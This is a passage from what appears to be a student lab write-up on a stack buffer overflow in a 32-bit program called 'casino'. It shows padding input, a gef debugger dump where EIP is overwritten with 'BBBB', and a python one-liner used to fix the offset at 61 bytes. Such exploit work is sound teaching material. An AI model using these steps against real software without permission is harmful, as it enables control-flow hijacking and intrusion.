 	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

	```

	We see that for offset 64, the EIP does not contain **BBBB**. Therefore, the correct offset is 61 as can be seen in the following output.
	```bash
	Please enter your bank account:                                                 
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB  
	Program received signal SIGSEGV, Segmentation fault.                                                                                                   
	0x42424242 in ?? ()                                                                                                                                  
	[ Legend: Modified register | Code | Heap | Stack | String ]                                                                                        
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
	$eax   : 0xffffd0cf  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
	$ebx   : 0x0       
	$ecx   : 0x1f      
	$edx   : 0xffffd0cf  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
	$esp   : 0xffffd110  →  0x00000000
	$ebp   : 0x41414141 ("AAAA"?)
	$esi   : 0xf7f9e000  →  0x001e4d6c
	$edi   : 0xf7f9e000  →  0x001e4d6c
	$eip   : 0x42424242 ("BBBB"?)
	$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
	$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
	0xffffd110│+0x0000: 0x00000000   ← $esp
	0xffffd114│+0x0004: 0xffffd1e4  →  0xffffd38d  →  "/home/kayn/Documents/ISC/task3/casino"
	0xffffd118│+0x0008: 0xffffd1ec  →  0xffffd3b3  →  "SHELL=/bin/bash"
	0xffffd11c│+0x000c: 0x080488d1  →  <__libc_csu_init+33> lea eax, [ebx-0xf8]
	0xffffd120│+0x0010: 0xf7fe4080  →   push ebp
	0xffffd124│+0x0014: 0xffffd140  →  0x00000001
	0xffffd128│+0x0018: 0x00000000
	0xffffd12c│+0x001c: 0xf7dd7e46  →  <__libc_start_main+262> add esp, 0x10
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
	[!] Cannot disassemble from $PC
	[!] Cannot access memory at address 0x42424242
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
	[#0] Id 1, Name: "casino", stopped 0x42424242 in ?? (), reason: SIGSEGV
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
	─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
	gef➤  
	─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
	┌─[kayn@parrot]─[~/Documents/ISC/task3]
	└──╼ $python2 -c "print 'A' * 61"
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	```
